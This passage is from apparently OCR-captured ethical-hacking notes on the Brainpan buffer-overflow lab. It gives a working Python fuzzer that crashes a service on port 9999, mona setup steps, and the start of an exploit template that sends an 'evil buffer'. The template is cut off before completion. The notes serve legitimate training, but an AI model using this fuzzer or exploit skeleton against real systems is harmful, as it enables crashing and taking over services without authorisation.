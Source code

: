   ```/bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh```
* Using Immunity Debugger & ```mona```, we can check for [buffer overflow](https://github.com/SrivathsanNayak/ethical-hacking-notes/blob/main/TryHackMe/Rooms/BufferOverflowPrep.md#overflow1).

* In local Windows machine, run Immunity Debugger as Administrator, open brainpan.exe and run it.

* In the command box below, run the following ```mona``` command:

  ```!mona config -set workingfolder c:\mona\%p```

* In our Kali machine, we can prepare a fuzzer script:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.30.139"

port = 9999
timeout = 5

string = "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

* Running this script shows that the fuzzer crashes at 600 bytes; we need to create a pattern of 600 + 400 = 1000 bytes; this can be done with the help of ```pattern_create.rb```

* The generated output pattern has to be used as payload in the exploit script to be created:

```python
import socket

ip = "192.168.30.139"
port = 9999

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
#insert pattern in payload
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
```
